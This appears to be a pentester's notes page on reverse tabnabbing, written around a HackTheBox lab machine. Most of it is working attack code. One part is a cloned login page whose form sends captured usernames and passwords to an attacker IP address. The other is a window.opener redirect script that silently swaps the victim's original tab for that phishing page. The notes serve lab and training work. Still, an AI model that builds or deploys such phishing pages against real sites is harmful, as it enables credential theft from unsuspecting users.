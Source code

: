 # Tab napping

## More info:  
https://owasp.org/www-community/attacks/Reverse_Tabnabbing  
https://hackerone.com/reports/179568


## Desc

When you open a link in a new tab ( ```target="_blank"``` ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property. 

## Tab napping setup. 

You need 2 html forms.

1. A fished login form 
2. A form with redirect code in for the browser. 

## Example (hackthebox machine foothold used to test) (developers htb, hard machine)

1. Spoofed login.html (make sure to update any links so they resolve the content and looks as the original)

```
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="//10.10.14.148:8074" method="get">
        <input type="hidden" name="csrfmiddlewaretoken" value="DNASuXuPkU07d5eNEABgOZsAzDPk3tS3BYJrWmTahQdvAUIYHsStaSpBQvSVTGMs">
      <img class="mb-4" src="http://developer.htb/static/img/logo.png" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
        <div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>

```

2. Redirect index.html

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace('//10.10.14.148:8088/login.html');
if (window.parent != window) window.parent.location.replace('//10.10.14.148:8088/login.html');
</script>
</html>
```
